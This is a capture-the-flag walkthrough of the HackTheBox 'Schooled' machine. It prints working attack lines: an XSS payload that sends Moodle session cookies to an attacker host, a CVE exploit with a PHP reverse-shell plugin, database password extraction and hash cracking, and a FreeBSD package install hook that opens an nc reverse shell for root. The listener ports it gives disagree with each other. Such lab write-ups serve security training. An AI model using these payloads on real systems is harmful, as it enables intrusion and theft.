









# Schooled - HackTheBox
FreeBSD, 30 Base Points, Medium

## Machine


 
## Schooled Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $nmap -sC -sV -oA nmap/Schooled 10.10.10.234
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-09 00:59 IDT
Nmap scan report for 10.10.10.234
Host is up (0.092s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.94 seconds
```

Let's try to observe port 80:


At the bottom of the page we can see:



Meaning that we have domain ```schooled.htb```.

By running ```gobuster``` to get ```vhosts``` we get the following result:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ gobuster vhost -u schooled.htb -w subdomains-top1milion.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          http://schooled.htb
[+] Threads:      10
[+] Wordlist:     subdomains-top1milion.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2021/04/09 01:16:52 Starting gobuster
===============================================================
Found: moodle.schooled.htb (Status: 200) [Size: 84
```

By observing the domain [http://moodle.schooled.htb](http://moodle.schooled.htb) we can see:



Let's register to Moodle system:



If we look at announcements in the Math course we can see the following message:


The message says:
```
This is a self enrollment course. For students who wish to attend my lectures be sure that you have your MoodleNet profile set.

Students who do not set their MoodleNet profiles will be  removed from the course before the course is due to start and I will be checking all students who are enrolled on this course.

Look forward to seeing you all soon.

Manuel Phillips
```

It's mean if we will enroll Math course the teacher will watch our MoodleNet profile.

So If another user (with teacher permission) looks at our page we can use [XSS](https://owasp.org/www-community/attacks/xss/) attack to steal the teacher cookies.

Let's edit our profile by clicking on top-right button with our ```Username -> Profile``` and we will see the following page:



By clicking on ```Edit Profile``` we get into the following page:



We can inject our ```XSS``` payload on ```MoodleNet Profile``` field, To steal the cookies our payload should be like that:
```javascript
<script>new Image().src="http://10.10.14.14:8000/"+document.cookie;</script>
``` 

We need to create a webserver to listen to the web requests from the teacher:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

By clicking on ```Update Profile``` button we get our web requests with cookies:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.14 - - [09/Apr/2021 02:39:18] "GET /MoodleSession=34dpp503jcoics05uu27tdoi9p HTTP/1.1" 404 -
```

Great, Now, Let's enroll to ```Math course``` to make the teacher look at our profile:


After few seconds we clicked on ```Enroll me``` we get the teacher cookie:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.234 - - [09/Apr/2021 02:42:51] code 404, message File not found
10.10.14.14 - - [09/Apr/2021 02:39:18] "GET /MoodleSession=34dpp503jcoics05uu27tdoi9p HTTP/1.1" 404 -
10.10.10.234 - - [09/Apr/2021 02:42:51] code 404, message File not found
10.10.10.234 - - [09/Apr/2021 02:42:51] "GET /MoodleSession=ngpo7csaks4c8t9ughtqcq9p2q HTTP/1.1" 404 -
```

Changing on browser to teacher cookie ```MoodleSession=ngpo7csaks4c8t9ughtqcq9p2q```:



Refresh the page and we can see that we are logged in as ```Manuel Phillips``` which is the teacher.

By using the following [CVE-2020-14321 Implementation](https://github.com/HoangKien1020/CVE-2020-14321) we can be logged in as ```admin```, After we logged in as ```admin``` we can install the [rce.zip](rce.zip) plugin to get RCE.

NOTE: 

1. To use the CVE above we need to choose account which is manager:


We can choose on```Lianne Carter``` user which is also a manager - so we need to add this user to the course.

2. Unzip the [rce.zip](./rce.zip) and put [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) instaed of ```block_rce.php``` code.

3. Browse to: [http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id](http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id)

After the ```PHP``` reverse shell is executed we get a shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from schooled.htb [10.10.10.234] 34825
FreeBSD Schooled 13.0-BETA3 FreeBSD 13.0-BETA3 #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021     root@releng1.nyi.freebsd.org:/usr/obj/usr/src/amd64.amd64/sys/GENERIC  amd64
12:40AM  up 49 mins, 0 users, load averages: 0.59, 0.60, 0.54
USER       TTY      FROM    LOGIN@  IDLE WHAT
uid=80(www) gid=80(www) groups=80(www)
sh: can't access tty; job control turned off
$ 

```

By enumerating on ```/usr/local/www/apache24/data/moodle``` directory we can see the file ```config.php```:
```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

Which contains the DB credentials: ```moodle:PlaybookMaster2020```, Let's try to enumerate the DB:
```console
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
moodle
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; show tables;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_moodle
mdl_analytics_indicator_calc
mdl_analytics_models
mdl_analytics_models_log
mdl_analytics_predict_samples
mdl_analytics_prediction_actions
mdl_analytics_predictions
mdl_analytics_train_samples
mdl_analytics_used_analysables
mdl_analytics_used_files
mdl_assign
mdl_assign_grades
mdl_assign_overrides
mdl_assign_plugin_config
mdl_assign_submission
mdl_assign_user_flags
mdl_assign_user_mapping
mdl_assignfeedback_comments
mdl_assignfeedback_editpdf_annot
mdl_assignfeedback_editpdf_cmnt
mdl_assignfeedback_editpdf_queue
....
mdl_user
....
```

By selecting from ```mdl_usr``` table we can get hashed password of ```Jamie``` user with ```admin role```:
```console
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select * from mdl_user'
mysql: [Warning] Using a password on the command line interface can be insecure.
id	auth	confirmed	policyagreed	deleted	suspended	mnethostid	username	password	idnumber	firstname	lastname	email	emailstop	icq	skype	yahoo	aim	msn	phone1	phone2	institution	department	addresscity	country	lang	calendartype	theme	timezone	firstaccess	lastaccess	lastlogin	currentlogin	lastip	secret	picture	url	description	descriptionformat	mailformat	maildigest	maildisplay	autosubscribe	trackforums	timecreated	timemodified	trustbitmask	imagealt	lastnamephonetic	firstnamephonetic	middlename	alternatename	moodlenetprofile
1	manual	1	0	0	0	1	guest	$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2		Guest user	 	root@localhost	0		en	gregorian		99	0	0	0	0			0	This user is a special user that allows read-only access to some courses.	1	1	02	1	0	0	1608320077	0	NULL	NULL	NULL	NULL	NULL	NULL
2	manual	1	0	0	0	1	admin	$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW		Jamie	Borham	jamie@staff.schooled.htb	0	Bournemouth	GB	en	gregorian		99	1608320129	1608729680	1608681411	1608729680	192.168.1.14		0			1	1	00	1	0	0	1608389236	0			

...

```

We can crack the hash ```$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW``` using [john](https://www.openwall.com/john/):
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)
1g 0:00:01:25 DONE (2021-04-10 02:51) 0.01174g/s 163.1p/s 163.1c/s 163.1C/s ainsley..stretch
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

And we get the creds ```jamie:!QAZ2wsx```, Let's connect to SSH using those credentials:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ ssh jamie@10.10.10.234
The authenticity of host '10.10.10.234 (10.10.10.234)' can't be established.
ECDSA key fingerprint is SHA256:BiWc+ARPWyYTueBR7SHXcDYRuGsJ60y1fPuKakCZYDc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.234' (ECDSA) to the list of known hosts.
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

To change this login announcement, see motd(5).
You can look through a file in a nice text-based interface by typing

	less filename
jamie@Schooled:~ $ cat user.txt
453b41bee59afebbebba5230e1deb4a7
```

And we get user flag: ```453b41bee59afebbebba5230e1deb4a7```.

### Root

By running ```sudo -l``` we get:
```console
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install 
```

We can create a custom package for privilege escalation.

First, We need to create the following bash script (called ```exploit.sh```) which create a package with code injection ([Reference](http://lastsummer.de/creating-custom-packages-on-freebsd/)):

```console
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
pw usermod -n root -s /bin/sh
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.14.14 9080 >/tmp/a
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF

pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o . 
```

Change this line:
``` console
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.14.14 1234 >/tmp/a
```

To your ip.

Now, Run it:
```console
jamie@Schooled:/tmp $ bash exploit.sh
jamie@Schooled:/tmp $ ls
a			mypackage-1.0_5.txz	mysql.sock.lock		mysqlx.sock.lock	stage
exploit.sh		mysql.sock		mysqlx.sock		package			tmp.FrVMM6P2
jamie@Schooled:/tmp $ 

```

As we can see, it's created for us package ```mypackage-1.0_5.txz```.

Let's start ```nc``` listener to port 1234:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ nc -lvp 1234
listening on [any] 1234 ...
```

And finally, let's install the package by running ```sudo pkg install --no-repo-update *.txz``` to get the root shell:
```console
jamie@Schooled:/tmp $ sudo pkg install --no-repo-update *.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
	mypackage: 1.0_5

Number of packages to be installed: 1

Proceed with this action? [y/N]: y
[1/1] Installing mypackage-1.0_5...
Registering root shell

```

```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ nc -lvp 1234
listening on [any] 1234 ...
onnect to [10.10.14.14] from schooled.htb [10.10.10.234] 12395
# cd /root
# cat root.txt
2cfd44153109185fc2d3950eac803311
# 
```

And we get root flag ```2cfd44153109185fc2d3950eac803311```.
